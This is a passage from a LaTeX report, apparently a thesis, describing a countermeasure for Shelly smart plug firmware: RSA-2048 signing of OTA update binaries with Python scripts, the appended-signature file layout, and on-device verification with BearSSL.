    
\includegraphics[width=0.90\linewidth]{Images/Fase3/InterfacciaBlufw.png}
    \caption{Web interface of the hardened firmware, preserving the same look and feel as the original Shelly UI while adding secure OTA update capabilities}
    \label{fig:bluefw_ui}
\end{figure}


\section{Ensuring Integrity: Secure Update Implementation}
\label{sec:integrity}

The most critical vulnerability exploited in Phase~2 was the \textbf{complete absence of cryptographic verification} during the OTA update process. The original Shelly firmware accepted any binary from any source — whether via the \texttt{/ota} endpoint or through a MITM-hijacked update flow — without verifying its authenticity or integrity. This section describes the countermeasure implemented to address this vulnerability: a \textbf{digital signature scheme based on RSA-2048 with SHA-256 hashing}, using the PKCS\#1 v1.5 padding scheme.

\medskip
\noindent The approach follows a standard asymmetric cryptography model:
\begin{itemize}
    \item The firmware developer signs each binary \textbf{offline} using a private key that never leaves the build environment.
    \item The device embeds the corresponding \textbf{public key} in its flash memory and uses it to verify the signature of any uploaded binary \textbf{before} applying the update.
\end{itemize}

\noindent This ensures that only firmware produced by the legitimate developer — who possesses the private key — can be installed on the device. Any attempt to upload unsigned or tampered binaries is rejected.

\subsection{Firmware Signing}

The signing process is performed offline on the developer's machine using two Python scripts: \texttt{key.py} for RSA key pair generation, and \texttt{signature.py} for computing and appending the digital signature to the firmware binary.

\subsubsection{Key Pair Generation}

The first step is generating the RSA-2048 key pair. The script \texttt{key.py} (Figure~\ref{fig:key_gen}) uses the \texttt{cryptography} Python library to generate a 2048-bit RSA key pair with a public exponent of 65537 (a standard and secure choice). The private key is saved in PEM format (PKCS\#8, unencrypted) to \texttt{private\_key.pem}, while the public key is exported in \texttt{SubjectPublicKeyInfo} format to \texttt{public\_key.pem}.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.80\linewidth]{Images/Fase3/GenerazioniChiaviFirma.png}
    \caption{RSA-2048 key pair generation script (\texttt{key.py}): generates \texttt{private\_key.pem} (kept secret) and \texttt{public\_key.pem} (embedded in firmware)}
    \label{fig:key_gen}
\end{figure}

\noindent The key generation is executed with:

\begin{bashcode}
python key.py
\end{bashcode}

\noindent This produces two files:
\begin{itemize}
    \item \texttt{private\_key.pem} — Must be kept secret and stored securely; it is used exclusively during the signing process on the developer's machine.
    \item \texttt{public\_key.pem} — Embedded directly into the firmware source code (in the \texttt{public\_key\_pem[]} constant) and flashed onto the device.
\end{itemize}


\subsubsection{Signing Process}

Once the firmware is compiled using Arduino IDE (producing a \texttt{.bin} file), it is signed using the \texttt{signature.py} script (Figure~\ref{fig:firma_fw}). The signing process operates as follows:

\begin{enumerate}
    \item \textbf{Read} the entire firmware binary into memory.
    \item \textbf{Compute} the SHA-256 hash of the binary data.
    \item \textbf{Sign} the hash using the RSA-2048 private key with PKCS\#1 v1.5 padding, producing a 256-byte digital signature.
    \item \textbf{Construct} the signed binary by appending to the original firmware data:
    \begin{itemize}
        \item The 256-byte RSA signature.
        \item A 4-byte little-endian integer encoding the signature length (i.e., \texttt{0x00000100} = 256).
    \end{itemize}
\end{enumerate}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.80\linewidth]{Images/Fase3/firmaFirmware.png}
    \caption{Firmware signing script (\texttt{signature.py}): computes SHA-256 hash, signs with RSA-2048 PKCS\#1 v1.5, and appends the signature to the binary}
    \label{fig:firma_fw}
\end{figure}

\noindent The signing is executed with:

\begin{bashcode}
python signature.py ShellyPlugS.ino.bin
\end{bashcode}

\noindent This produces a signed binary named \texttt{ShellyPlugS.ino\_firmato.bin} with the following internal structure:

\begin{verbatim}
+-----------------------------+
| Original firmware binary    |   (N bytes)
+-----------------------------+
| RSA-2048 signature          |   (256 bytes)
+-----------------------------+
| Signature length (LE uint32)|   (4 bytes, value = 256)
+-----------------------------+
\end{verbatim}

\noindent The trailing 4-byte length field allows the device to locate and extract the signature from the end of the uploaded file during verification.


\subsection{Signing Verification}

The verification process occurs \textbf{on the device} during the OTA upload. The hardened firmware embeds the RSA-2048 public key directly in flash memory (stored in the \texttt{PROGMEM} section to minimize RAM usage) and uses the BearSSL library to perform signature verification before applying any update.

\subsubsection{Public Key Embedding}

The public key corresponding to the signing private key is hardcoded into the firmware source as a PEM-encoded string constant (Figure~\ref{fig:chiavi}):

\begin{figure}[H]
    \centering
